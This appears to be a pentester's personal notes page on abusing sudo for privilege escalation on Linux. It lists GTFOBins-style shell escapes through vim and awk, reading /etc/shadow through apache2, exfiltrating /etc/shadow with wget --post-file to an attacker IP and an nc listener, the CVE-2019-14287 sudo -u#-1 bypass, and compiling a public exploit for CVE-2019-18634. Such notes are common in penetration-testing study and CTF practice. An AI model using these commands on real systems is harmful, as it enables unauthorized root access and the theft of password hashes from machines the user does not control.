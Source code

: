 -- -
Ways I've abused sudo to get privesc laterally or vertically.
#### Enum
![[Sudo#^767678|Sudo]]
If it outputs custom scripts/software, you can look into creative ways to abuse it. Otherwise, check each program output on [GTFOBins](https://gtfobins.github.io) and it will let you know if software is vulnerable or not, and how to exploit it if it is vulnerable. 
#### Vim/Vi
```bash
sudo vim -c ":!/bin/sh"
```
#### awk
```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```

#### Apache
Sometimes, you will have a program that shows up in the enum that does not show up as exploitable in GFTOBins, but that doesn't mean it isn't possible to abuse, in this case you can put in the software into google: `apache privesc exploit`
This may come up with something like the following with a way it can be abused to privesc, in this case you get a file read on a file we shouldn't be able to read:
```bash
sudo apache2 -f /etc/shadow
```
#### wget
Similarly to above, you may not see wget in GTFOBins directly, but you can use it to get file access to files locked to root, so you can abuse wget to send yourself a file (like `/etc/shadow`) that you should not have access to:
```bash
# on attack box
nc -nvlp <listening port>
nc -nvlp 8001

# on target
sudo wget --post-file=<file path> <attack ip>:<listening port>
sudo wget --post-file=/etc/shadow 10.10.10.10:8001
```
#### CVE-2019-14287
#cve-2019-14287
Happens because sudo doesn't check the supplied user id, so by giving it `-u#-1`, the expression returns the ID `0` which is root's ID, and since sudo doesn't verify this ID, it executes bash as root. You can change the expression to be any user ID and take over that account, this isn't exclusive to root. 
```bash
# for situation where you run:
sudo -l

# and get the following output:
# (ALL, !root) /bin/bash

# This means you can run bash with sudo for any user on the system EXCEPT root.
# Trivially exploit to get root:
sudo -u#-1 /bin/bash

# And boom you have root!
```
#### CVE-2019-18634
#cve-2019-18634
Buffer overflow vulnerability in sudo. Key component is the version of sudo and that the `pwfeedback` setting is on. 
##### Enum
![[Sudo#^297150]]
##### Prepare exploit
[Exploit Source](https://github.com/saleemrashid/sudo-cve-2019-18634)
```bash
git clone https://github.com/saleemrashid/sudo-cve-2019-18634.git
cd sudo-cve-2019-18634/
gcc -o exploit exploit.c
```
##### exploit
```bash
# literally just run the exploit on the target
./exploit
```

#### Resources
- [GTFOBins](https://gtfobins.github.io)